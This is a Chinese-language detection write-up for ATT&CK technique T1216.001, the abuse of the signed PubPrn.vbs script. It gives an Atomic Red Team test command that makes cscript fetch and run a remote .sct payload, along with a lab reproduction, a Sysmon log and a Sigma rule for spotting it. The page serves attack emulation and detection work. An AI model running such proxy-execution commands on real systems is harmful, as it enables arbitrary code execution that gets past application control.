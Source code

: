 # T1216-001-Win-签名脚本代理执行-PubPrn

## 来自ATT&CK的描述

攻击者可能会使用 PubPrn 来代理恶意远程文件的执行。PubPrn.vbs 是一个将打印机发布到 Active Directory 域服务的Visual Basic脚本。该脚本由 Microsoft 签名，通常通过Windows shell `Cscript.exe`. 例如，以下代码在指定域内发布打印机：`cscript pubprn Printer1 LDAP://CN=Container1,DC=Domain1,DC=Com`。

 攻击者可能会滥用PubPrn来执行托管在远程站点上的恶意负载。为此，攻击者可以设置第二个`script:`参数以引用托管在远程站点上的脚本文件 (.sct)。一个示例命令`pubprn.vbs 127.0.0.1 script:https://mydomain.com/folder/file.sct`. 此行为可能会绕过签名验证限制和不考虑滥用此脚本的应用程序控制。

在更高版本的 Windows (10+) 中，`PubPrn.vbs`已更新，防止从远程站点执行代理。这是通过将第二个参数中指定的协议限制为来完成的，也就是可用于通过 HTTP(S) 引用远程代码`LDAP://`的`script:`绰号。

## 测试案例

### 测试1 PubPrn.vbs Signed Script Bypass

执行已签名的PubPrn.vbs脚本，该脚本可以下载和执行任意有效载荷。
攻击命令，Windows命令行执行即可。

```yml
cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs localhost "script:#{remote_payload}"
```

remote_payload：<https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216.001/src/T1216.001.sct>

## 检测日志

Windows 安全日志、Sysmon日志

## 测试复现

### 测试1 PubPrn.vbs Signed Script Bypass

```yml
C:\Users\Administrator.ZHULI>cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs localhost "script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216.001/src/T1216.001.sct"
```

注意操作系统语言，语言不同，VBS脚本所在位置不同

## 测试留痕

Windows Sysmon日志

```yml
Process Create: 事件ID 1进程创建

RuleName: technique_id=T1059,technique_name=Command-Line Interface

UtcTime: 2022-01-11 08:05:07.983

ProcessGuid: {78c84c47-3a33-61dd-3924-000000000800}

ProcessId: 2000

Image: C:\Windows\System32\cscript.exe

FileVersion: 5.812.10240.16384

Description: Microsoft 

Product: Microsoft ® Windows Script Host

Company: Microsoft Corporation

OriginalFileName: cscript.exe

CommandLine: cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs localhost "script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216.001/src/T1216.001.sct"

CurrentDirectory: C:\Users\Administrator.ZHULI\

User: ZHULI\Administrator

LogonGuid: {78c84c47-f665-61db-95da-440100000000}

LogonId: 0x144DA95

TerminalSessionId: 3

IntegrityLevel: High

Hashes: SHA1=0E3C0779D8EAAD3B00363D7890DDC8272B510D49,MD5=A45586B3A5A291516CD10EF4FD3EE768,SHA256=59D3CDC7D51FA34C6B27B8B04EA17992955466EB25022B7BD64880AB35DF0BBC,IMPHASH=2B44D2206B9865383429E9C1524F1CAC

ParentProcessGuid: {78c84c47-2489-61dd-f120-000000000800}

ParentProcessId: 4392

ParentImage: C:\Windows\System32\cmd.exe

ParentCommandLine: "C:\Windows\system32\cmd.exe" 

ParentUser: ZHULI\Administrator
```

## 检测规则/思路

### Sigma规则

```yml
title: 使用PubPrn.vbs脚本绕过检测
status: experimental
author: 12306Br0
date: 2022/01/11
references:
    - attack.t1216.001
logsource:
    product: windows
    service: sysmon
detection:
    selection:
        EventID: 1 #sysmon日志，进程创建
        CommandLine: 
             - '*\Printing_Admin_Scripts\*\pubprn.vbs' #进程命令行
             - 'https:*'
             - '*.sct' 
    condition: selection
level: low
```

### 建议

监视脚本进程，例如`cscript`，以及脚本的命令行参数，例如可用于代理恶意文件执行的PubPrn.vbs。

## 参考推荐

MITRE-ATT&CK-T1216-001

<https://attack.mitre.org/techniques/T1216/001/>

Atomic-red-team-T1216.001

<https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1216.001/T1216.001.md>
